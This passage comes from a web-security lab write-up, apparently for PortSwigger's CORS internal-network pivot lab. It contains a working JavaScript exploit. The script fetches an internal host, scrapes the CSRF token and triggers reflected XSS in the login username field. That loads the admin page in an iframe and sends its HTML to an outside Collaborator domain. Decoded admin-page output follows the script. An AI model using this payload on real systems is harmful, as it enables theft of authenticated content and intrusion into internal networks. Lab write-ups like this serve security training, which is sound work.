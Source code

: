 **Note** - You can form the regex for extracting CSRF token with the help of https://regex101.com/
![[cors34.png]]

**Here, we got a response that means "username" field of login page is vulnerable to XSS** - 
![[cors35.png]]

3. Now, we are going to use the XSS vulnerability in order to access an authenticated page(Admin page).

**Script to Access the authenticated admin page** - 
```js
<html>
    <script>
    collaboratorURL = 'http://w638wusq9v08mm9rfq3w1lhm4da4yumj.oastify.com';
    url = 'http://192.168.0.159:8080'

    fetch(url)
    .then(response => response.text())
    .then(text => {
        try{
            // The below XSS vector can be different depending on the version of web server
            xss_vector = '"><iframe src=/admin onload="new Image().src=\''+collaboratorURL+'?code=\'+encodeURIComponent(this.contentWindow.document.body.innerHTML)">';

            // We already found out that there is a vulnerability in the username field of login page. Here, for CSRF token we match the CSRF token agains response and grab the value of the CSRF token.
            login_path = '/login?username='+encodeURIComponent(xss_vector)+'&password=random&csrf='+text.match(/csrf" value="([^"]+)"/);

            // Below, we change the current of victim
            location = url + login_path;
        }catch(err){
        
        }
    })
    </script>
</html>
```

**After sending this to victim, we got a response containing the admin page code.** - 
![[cors36.png]]

**After decoding it with the help of Burp Decoder we got information about admin page.** - 
```js

<script src="/resources/labheader/js/labHeader.js"></script>
<div id="academyLabHeader">
	<section class="academyLabBanner">
		<div class="container">
			<div class="logo"></div>
				<div class="title-container">
					<h2>CORS vulnerability with internal network pivot attack</h2>
					<a id="exploit-link" class="button" target="_blank" href="http://exploit-0ae10029044b4d0b809c6176018900c1.exploit-server.net">Go to exploit server</a>
					<a class="link-back" href="https://portswigger.net/web-security/cors/lab-internal-network-pivot-attack">
						Back&nbsp;to&nbsp;lab&nbsp;description&nbsp;
						<svg version="1.1" id="Layer_1" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" x="0px" y="0px" viewBox="0 0 28 30" enable-background="new 0 0 28 30" xml:space="preserve" title="back-arrow">
							<g>
								<polygon points="1.4,0 0,1.2 12.6,15 0,28.8 1.4,30 15.1,15"></polygon>
```